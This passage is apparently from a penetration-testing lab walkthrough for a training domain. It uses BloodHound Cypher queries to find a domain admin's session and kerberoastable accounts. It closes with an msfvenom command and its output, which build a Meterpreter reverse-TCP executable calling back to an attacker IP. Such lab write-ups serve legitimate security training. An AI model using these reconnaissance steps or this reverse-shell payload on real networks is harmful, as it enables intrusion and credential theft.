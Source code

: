 ### Services and Sessions

Cypher is a querynig language, so we can build a relationship query with the following syntax **(NODES) - \[:RELATIONSHIP] -> (NODES)**.

In our example, we'll query for active sessions on computers by users:

```splunk-spl
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Display all active sessions in the BEYOND.COM domain</p></figcaption></figure>

We see Beccy, a domain admin, has an active session on MAILSRV1. We may be able to extract their NTLM hash if we get privileged access on MAILSRV1. BloodHound uses SIDs to represent local accounts, in this case the RID 500 implies there is an active session of the local Administrator on INTERNALSRV1.

Now we'll identify all _kerberoastable_ users in the domain with the _List all Kerberoastable Accounts_ pre-built query in BloodHound.

{% hint style="info" %}
The _krbtgt_ user account acts as service account for the _Key Distribution Center_ (KDC) and is responsible for encrypting and signing Kerberos tickets. When a domain is set up, a password is randomly generated for this user account, making a password attack unfeasible. Therefore, we can often safely skip _krbtgt_ in the context of Kerberoasting.
{% endhint %}

Even though we've found the SPN for daniela indicating a web server is running on INTERNALSRV1, we should **collect all information, prioritize it, and **_**then**_** perform potential attacks**.

Creating a staged meterpreter TCP reverse shell as an executable:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```
{% endcode %}
